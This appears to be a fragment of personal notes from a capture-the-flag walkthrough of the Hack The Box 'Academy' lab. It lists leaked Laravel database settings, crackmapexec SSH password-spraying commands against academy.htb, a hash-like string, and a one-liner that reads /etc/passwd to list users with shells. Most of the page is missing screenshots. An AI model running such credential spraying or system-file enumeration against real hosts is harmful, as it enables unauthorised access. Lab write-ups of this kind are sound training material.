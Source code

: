 ```
MIX_PUSHER_APP_KEY 	

""

MIX_PUSHER_APP_CLUSTER 	

"mt1"

Registered Handlers
0. Whoops\Handler\PrettyPageHandler
```

```
DB_CONNECTION "mysql"

DB_HOST "127.0.0.1"

DB_PORT "3306"

DB_DATABASE "homestead"

DB_USERNAME "homestead"

DB_PASSWORD "secret"
```

![[Pasted image 20231013163724.png]]

```
poetry run cme ssh academy.htb -u usernames.txt -p password.txt
```

![[Pasted image 20231014194410.png]]

```
crackmapexec ssh academy.htb -u usernames.txt -p password.txt
```

![[Pasted image 20231014194330.png]]

![[Pasted image 20231014194554.png]]

```
84b15799740b871bc6354667f8338aab
```

![[Pasted image 20231014194839.png]]

![[Pasted image 20231014195530.png]]

```
cat /etc/passwd | grep sh$ | awk -F: '{print $1}'
```
